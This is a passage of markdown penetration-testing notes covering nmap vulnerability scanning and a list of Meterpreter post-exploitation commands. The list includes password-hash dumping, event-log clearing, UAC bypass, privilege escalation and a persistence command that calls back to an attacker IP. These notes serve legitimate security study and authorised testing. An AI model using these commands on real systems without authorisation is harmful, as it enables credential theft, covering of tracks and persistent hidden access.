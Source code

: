 Use wireshark on the same interface to capture traffic and then follow the TCP stream to extract details

---
---

## NMAP vulnerability scanning 
### nmap vuln 
Can return associated CVE and information about the potential exploit  
`nmap -Pn --script vuln -sV {target}`

### nmap-vulners
A CVE search nmap script  
Git clone into nmap scripts folder:
```
cd /usr/share/nmap/scripts/
git clone https://github.com/vulnersCom/nmap-vulners.git
```  
Then execute: `nmap --script nmap-vulners -sV {target}`

---
---

## meterpreter
Within a `meterpreter >` session, available commands can be found using `help` or `?`  

Important to know: 
- `sysinfo` = get victim machine info
- `ps` = get running processes on victim
- `getpid` = get attached process id
- `pwd` = print working directory
- `ls` = list current directory files
- `cat {filename}` = print contents of text file
- `run` = executes meterpreter scripts or Post modules
- `upload` = upload file to victim
- `download` = download file from victim
- `arp` = displays arp cache on victim **(useful for pivoting)**
- `ifconfig` = get victim network interfaces **(useful for pivoting)**
- `clearenv` = clear event log
- `hashdump` = dump SAM database 
- `getsystem` = SYSTEM elevation attempt ***(unlikely because of UAC)***
- `run post/windows/gather/win_privs` = see if UAC is enabled on victim, if so follow up with `bypassuac`
- `use exploit/windows/local/bypassuac` = may allow UAC bypass to session ID | if successful, then can invoke `getsystem`
- `migrate {PID}` = migrates session to new process

If a system can be fully compromise, we would want to establish persistence so that we regain a session after the workstation reboots and at user login. This can be done with the following command:  
`run persistence -U -i {interval} -p {port} -r {attacker ip}`

